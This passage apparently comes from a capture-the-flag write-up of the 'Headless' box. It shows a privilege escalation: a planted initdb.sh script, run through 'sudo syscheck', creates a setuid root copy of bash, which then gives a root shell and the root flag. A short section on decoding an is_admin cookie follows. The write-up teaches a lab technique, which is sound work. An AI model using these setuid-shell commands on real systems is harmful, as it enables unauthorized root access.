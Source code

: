     
    
    dvir@headless:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' | tee initdb.sh
    #!/bin/bash
    
    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 6777 /tmp/0xdf
    dvir@headless:/dev/shm$ chmod +x initdb.sh
    

It’s also important to make the script executable.

I’ll run `sudo syscheck`:

    
    
    dvir@headless:/dev/shm$ sudo syscheck
    Last Kernel Modification Time: 01/02/2024 10:05
    Available disk space: 1.8G
    System load average:  0.04, 0.05, 0.01
    Database service is not running. Starting it...
    

Now `/tmp/0xdf` exists:

    
    
    dvir@headless:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1265648 Jul 11 23:16 /tmp/0xdf
    

I’ll run it with `-p` (`bash` will drop privileges without this) and get a
root shell:

    
    
    dvir@headless:/dev/shm$ /tmp/0xdf -p
    0xdf-5.2#
    

I’ll clean up the binary and get the root flag:

    
    
    0xdf-5.2# rm /tmp/0xdf 
    0xdf-5.2# cat /root/root.txt
    2694e156************************
    

## Beyond Root

### Cookie Exploration

#### Decoding

The `is_admin` cookie is made up of two base64 encoded strings with a `.`
between them:

    
    
    is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
    